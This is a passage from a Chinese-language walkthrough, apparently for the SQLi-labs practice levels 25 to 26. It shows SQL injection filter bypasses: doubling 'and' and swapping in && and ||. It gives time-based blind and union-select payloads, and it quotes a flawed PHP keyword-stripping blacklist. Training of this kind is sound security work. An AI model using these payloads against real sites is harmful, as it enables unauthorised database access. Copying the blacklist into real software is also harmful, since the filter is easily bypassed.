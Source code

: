 ![6](/img/2018-08-17/6.png)
测试`id=1' anandd '1'='1`返回正常说明and只被过滤了一次
![7](/img/2018-08-17/7.png)
只要把and或or双写就可以绕过了
还有一种方法是用逻辑运算符代替，用`&&`代替`and`,用`||`代替`or`
##### 第二十五A关
这一关考的是过滤了and和or的盲注，同样过滤了and和or，可以用&&和||代替和双写绕过
```
id=1 anandd if(length(database())>8,sleep(5),sleep(10)) #
```
实测发现可以不用盲注直接注入
```
id=-1 union select 1,database(),3
```
##### 第二十六关
这关过滤了空格和注释
```
function blacklist($id)
{
$id= preg_replace('/or/i',"", $id);		//strip out OR (non case sensitive)
$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --
$id= preg_replace('/[#]/',"", $id);		//Strip out #
$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
$id= preg_replace('/[\/\\\\]/',"", $id);	//Strip out slashes
return $id;
}
```